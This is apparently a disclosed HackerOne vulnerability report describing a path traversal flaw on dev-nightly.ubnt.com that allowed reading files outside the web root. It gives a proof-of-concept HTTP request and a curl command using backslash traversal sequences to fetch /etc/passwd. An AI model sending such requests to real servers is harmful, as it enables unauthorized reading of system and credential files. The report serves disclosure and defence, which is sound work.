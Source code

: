 # [dev-nightly.ubnt.com] Local File Reading

## Report Details
- **Report ID**: 260420
- **URL**: https://hackerone.com/reports/260420
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-08-15T16:51:21.285Z
- **Disclosed**: 2017-09-14T18:23:06.688Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ui

## Vulnerability Information
**Description**
Reading files outside the web root via path traversal

**PoC**
```http
GET /..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc\passwd HTTP/1.1
Host: dev-nightly.ubnt.com
```
```
curl "https://dev-nightly.ubnt.com/..\..\..\etc\passwd"
```

**Result**
{F213057}

## Attachments
- Screenshot_at_20-47-03.png
